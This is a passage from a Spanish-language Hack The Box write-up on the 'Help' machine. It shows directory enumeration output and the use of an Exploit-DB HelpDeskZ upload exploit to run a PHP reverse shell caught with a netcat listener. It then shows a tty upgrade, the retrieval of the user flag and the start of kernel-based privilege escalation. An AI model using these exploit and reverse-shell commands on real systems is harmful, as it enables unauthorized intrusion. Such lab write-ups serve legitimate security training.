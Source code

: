     /views                (Status: 301) [Size: 312] [--> http://help.htb/support/views/]
    Progress: 4614 / 4615 (99.98%)
    ===============================================================
    Finished
    ===============================================================

Destacar el directiorio 'uploads' el cual me indica que seguramente pueda ser capaz de subir un archivo al servidor mediante este servicio.<br/><br/>
Investigando sobre HelpDeskZ, me topé con un artículo interesante (https://www.exploit-db.com/exploits/40300). Resulta que puedo subir un php reverse shell al servidor y mediante un exploit, conseguiré encontrarlo y ejecutarlo. Me descargué el exploit (40300.py) y un php reverse shell (php-reverse-shell.php).<br/><br/>
Una vez que subí el reverse shell a la dirección correspondiente (http://help.htb/support/?v=submit_ticket&action=displayForm), ejecuté un NetCat listener y arranqué el exploit<br/>

    ┌──(root㉿kali)-[/home/nico/htb]
    └─# python2 40300.py http://help.htb/support/uploads/tickets/ php-reverse-shell.php
    Helpdeskz v1.0.2 - Unauthenticated shell upload exploit

<br/>

    ┌──(root㉿kali)-[/home/nico/htb]
    └─# nc -lnvp 1234      
    Listening on 0.0.0.0 1234
    Connection received on 10.10.10.121 53526
    Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
    09:40:57 up  1:13,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    help
    $ python -c "import pty;pty.spawn('/bin/bash')"
    help@help:/$ cd home
    cd home
    help@help:/home$ cd help
    cd help
    help@help:/home/help$ cat user.txt
    cat user.txt
    2a44eca41db26ec461c9820aea62f835

Ya tengo entonces el reverse shell en mi puerto 1234 como usuario 'help' y obtengo el flag de usuario.

Escalado de privilegios
------

Para tratar de conseguir escalar privilegios, enumeré cierta información sobre la maquina. En el caso de la versión del kernel, me di cuenta de que es vulnerable a un exploit de escalado de privilegios<br/>

    help@help:/home/help$ uname -r
    uname -r
    4.4.0-116-generic
